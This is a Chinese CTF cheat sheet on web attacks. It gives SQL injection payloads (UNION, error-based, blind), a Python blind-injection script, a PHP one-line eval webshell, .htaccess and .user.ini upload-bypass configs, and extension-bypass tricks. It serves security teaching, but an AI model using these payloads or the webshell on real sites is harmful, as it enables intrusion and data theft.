

Web 方向核心漏洞的快速参考，覆盖 SQL 注入和文件上传两种基础题型。

<!-- more -->

## SQL 注入

### 攻击流程

> 判断注入 → 定列数 → 找回显 → 拿数据

| 步骤 | Payload | 说明 |
|---|---|---|
| 1. 判断注入 | `?id=1'` | 页面变化/报错 → 有注入 |
| 2. 定列数 | `?id=1 ORDER BY n` | n 从 1 递增直到报错 |
| 3. 找回显 | `?id=-1 UNION SELECT 1,2,...,n` | 数字出现的位置=回显位 |
| 4. 库名 | `SELECT database()` | 放到回显位置 |
| 5. 表名 | `SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()` | 一张表列出所有结果 |
| 6. 列名 | `SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='xxx'` | 同理 |
| 7. 数据 | `SELECT GROUP_CONCAT(col1,':',col2) FROM xxx` | 旗子到手 |

### 无回显方案

::: tabs#sqli-types

@tab 报错注入

页面展示 SQL 错误时用：

```sql
?id=1 AND updatexml(1, concat(0x7e, (payload), 0x7e), 1)
?id=1 AND extractvalue(1, concat(0x7e, (payload), 0x7e))
```

把 `payload` 换成想查的 SQL 子查询。

@tab 布尔盲注

只有"正常/异常"两种状态时，逐字符猜解：

```python
# 核心：二分法猜每个字符的 ASCII 码
payload = f"?id=1 AND ASCII(SUBSTR(({sql}),{pos},1))>{mid}"
if "正常标志" in response:
    low = mid + 1   # 猜小了
else:
    high = mid       # 猜大了
```

@tab 时间盲注

连页面内容都一样时，用延迟判断：

```sql
?id=1 AND IF(ASCII(SUBSTR((payload),pos,1))>mid, SLEEP(3), 0)
```

如果页面延迟了 3 秒 → 条件为真。

:::

### 自动化脚本框架

```python
import requests

def blind_inject(sql_template):
    result = ""
    for pos in range(1, 33):
        low, high = 32, 126
        while low < high:
            mid = (low + high) // 2
            payload = f"?id=1 AND ASCII(SUBSTR(({sql_template}),{pos},1))>{mid}"
            if "success_marker" in requests.get(url + payload).text:
                low = mid + 1
            else:
                high = mid
        result += chr(low)
        print(f"[+] {result}")
    return result
```

## 文件上传

### 绕过方法决策树



### 一句话 WebShell

```php
<?php @eval($_POST['cmd']); ?>
```

### 配置文件上传

```apache
# .htaccess (Apache)
AddType application/x-httpd-php .jpg
```

```ini
; .user.ini (Nginx/FastCGI)
auto_prepend_file=shell.jpg
```

### 常见绕过后缀

| 后缀 | 需要条件 |
|---|---|
| `.php5`, `.phtml`, `.pht` | Apache + PHP |
| `.php.`, `.php .` | Windows 自动去除尾部字符 |
| `.Php`, `.pHp` | Windows 不区分大小写 |
| `.php%00.jpg` | PHP < 5.3.4（%00 截断） |
| `.php/.` | Apache 解析漏洞 |

## 工具链

| 工具 | 用途 |
|---|---|
| **Burp Suite** | 抓包改包、重放、爆破 |
| **HackBar** | 浏览器快速改参数 |
| **Sqlmap** | 自动化 SQL 注入（先学手工再用） |
| **Dirsearch** | 目录扫描 |
| **蚁剑/冰蝎/哥斯拉** | WebShell 连接与管理 |

## 交叉引用

- [逆向工程参考](./reverse.md)
- [杂项工具与技法](./misc.md)
